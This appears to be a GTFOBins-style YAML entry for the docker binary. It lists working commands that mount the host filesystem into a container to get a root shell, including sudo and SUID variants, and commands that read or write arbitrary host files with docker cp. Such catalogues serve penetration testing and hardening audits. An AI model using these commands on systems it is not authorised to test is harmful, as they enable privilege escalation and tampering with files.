 description: |
  This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.

  Any other Docker Linux image should work, e.g., `debian`.
functions:
  shell:
    - description: The resulting is a root shell.
      code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  file-write:
    - description: Write a file by copying it to a temporary container and back to the target destination on the host.
      code: |
        CONTAINER_ID="$(docker run -d alpine)" # or existing
        TF=$(mktemp)
        echo "DATA" > $TF
        docker cp $TF $CONTAINER_ID:$TF
        docker cp $CONTAINER_ID:$TF file_to_write
  file-read:
    - description: Read a file by copying it to a temporary container and back to a new location on the host.
      code: |
        CONTAINER_ID="$(docker run -d alpine)"  # or existing
        TF=$(mktemp)
        docker cp file_to_read $CONTAINER_ID:$TF
        docker cp $CONTAINER_ID:$TF $TF
        cat $TF
  sudo:
    - description: The resulting is a root shell.
      code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  suid:
    - description: The resulting is a root shell.
      code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
---
